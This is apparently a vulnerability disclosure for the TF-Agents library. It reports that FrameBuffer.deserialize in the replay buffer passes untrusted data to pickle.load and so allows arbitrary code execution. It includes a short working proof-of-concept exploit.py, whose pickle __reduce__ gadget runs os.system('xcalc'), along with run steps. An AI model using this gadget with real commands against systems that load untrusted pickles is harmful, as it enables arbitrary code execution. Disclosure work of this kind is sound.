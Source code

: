 # Description
TF-Agents is a library for Reinforcement Learning in TensorFlow  
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install tf-agents')
from tf_agents.replay_buffers import py_hashed_replay_buffer
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#exploiting
dumps = pickle.dumps(ArbitraryCode())
py_hashed_replay_buffer.FrameBuffer.deserialize(dumps,dumps)
```
* `pip3 install tf-agents`
* `python3 exploit.py`
